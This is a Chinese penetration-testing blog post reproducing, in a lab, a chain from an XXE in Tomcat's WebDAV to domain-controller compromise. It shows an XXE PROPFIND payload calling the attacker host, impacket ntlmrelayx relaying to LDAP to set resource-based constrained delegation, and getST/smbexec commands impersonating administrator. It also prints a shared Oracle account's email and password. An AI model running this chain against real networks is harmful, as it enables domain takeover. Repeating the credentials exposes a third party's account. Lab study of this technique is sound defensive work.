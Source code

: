 ```yaml
---
title: "XXE到域控复现(基于资源的约束委派)"
date: 2020-12-12T12:50:28+08:00
draft: false
tags:
- Kerberos
series:
- Windows协议
categories:
- 渗透测试
---
```



奇安信Ateam文章地址：[XXE to 域控](https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#4-xxe-to-%E5%9F%9F%E6%8E%A7)
<!--more-->

# 概述
本文主要复现该文章中XXE中继的部分，主要利用的技术为通过XXE实现NTLM中继从而添加基于资源约束委派，最后拿到webdav的TGS票据。

一是对上文《Kerberos协议之基于资源的约束委派》的一个实战场景的讲解，二是加深对于资源约束委派的理解。

# 环境搭建
1. 域控DC 172.16.33.12
2. 目标机器DM2012 172.16.33.33
3. 攻击机Kali 172.16.33.99
4. 一个普通域账号 jack@test.local
5. 其他机器 DM 172.16.33.8

webdav环境由jdk8u202和tomcat5.0.28

下载地址：
1. Tomcat5.0.28 https://archive.apache.org/dist/tomcat/tomcat-5/v5.0.28/bin/jakarta-tomcat-5.0.28.zip
2. JDK8u202 https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html
3. Oracle账号 2696671285@qq.com 密码：Oracle123 来自[老鼠拧刀满街找猫csdn](https://blog.csdn.net/LinBilin_/article/details/50217541)

tomcat5自带了webdav，将搭建在dm2012目标机器上。配置好JAVA_HOME的环境变量之后，通过`PsExec64.exe -i -s cmd`以system权限启动tomcat。
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/9bfc52a1-2809-c994-3643-2886af354860.png)

# 复现
通过OPTIONS请求探测支持的请求方式
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/9a237058-7759-101a-c41a-f1b730a2322e.png)

通过PROPFIND方法触发XXE
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/093f2fbf-4d8b-3da4-74c8-78ace53cbe61.png)

```
PROPFIND /webdav/ HTTP/1.1
Host: 172.16.33.33:8080
Content-Length: 247

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE propertyupdate [
<!ENTITY loot SYSTEM "http://172.16.33.99/"> ]>
<D:propertyupdate xmlns:D="DAV:"><D:set><D:prop>
<a xmlns="http://172.16.33.99/">&loot;</a>
</D:prop></D:set></D:propertyupdate>
```

因为java`sun.net.www.protocol.http.HttpURLConnection`类在响应401时，会根据响应判断使用哪种认证模式，这个时候我们可以返回要求使用ntlm认证，这样拿到目标机器的ntlm hash(参见[Ghidra 从 XXE 到 RCE](https://xlab.tencent.com/cn/2019/03/18/ghidra-from-xxe-to-rce/))，继而通过中继其ntlm链接域控ldap添加基于资源的约束委派（我改我自己）。

而基于资源的约束委派还需要一个服务账户，我们可以通过Powermad来添加。而通过powermad添加就需要走Kerberos认证，即需要一个普通域账户Jack。

以域账户jack运行powermad添加机器账号，密码`test123`
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/e9271a8b-9c02-927a-6f41-0e965983ae47.png)

在域控上已经添加了该账户
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/e26c85da-e335-f3ae-7ff0-8ab0de8650b6.png)

此时我们需要通过ntlm中继实现`evilpc$`到`dm2012$`的传入信任关系，即设置`evilpc$`到`dm2012$`的资源约束委派。这个资源约束委派是在`dm2012$`上设置的，是我们通过ntlm中继`dm2012$`链接到域控的ldap设置的。

impacket启动ntlm中继

```
impacket-ntlmrelayx -t ldap://dc.test.local -debug -ip 172.16.33.99 --delegate-access --escalate-user evilpc\$
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/248b8ee4-ee9e-7013-3ce9-1f9aecb204e1.png)

触发xxe之后中继成功修改委派。接着模拟administrator申请高权限票据，然后ptt就完事了。

```
python3 getST.py -dc-ip dc.test.local test/evilpc\$:test123 -spn cifs/dm2012.test.local -impersonate administrator
export KRB5CCNAME=administrator.ccache
python3 smbexec.py -no-pass -k dm2012.test.local
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/b82f0d9f-3700-5f56-b2b6-0052c7ec1689.png)

复现过程中碰到了`[-] Exception in HTTP request handler: invalid server address`的错误，解决办法是dns解析的问题，修改`/etc/resolv.conf`加上一行`nameserver 172.16.33.12`，让kali也能解析test.local域名就可以了。

# 总结
基于资源的约束委派利用条件：

1. 拥有一个任意的服务账户1或者计算机账户1(`evilpc$`)，如果没有，可以滥用普通域账户jack的MachineAccountQuota。
2. 获得服务账户2的LDAP权限，文中采用的ntlm中继
3. 配置服务1对服务2的约束委派
4. 发起S4U2Proxy申请高权限票据进行ptt

相比于传统约束委派，信任关系的传入传出方向不同，设置的对象不同。


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**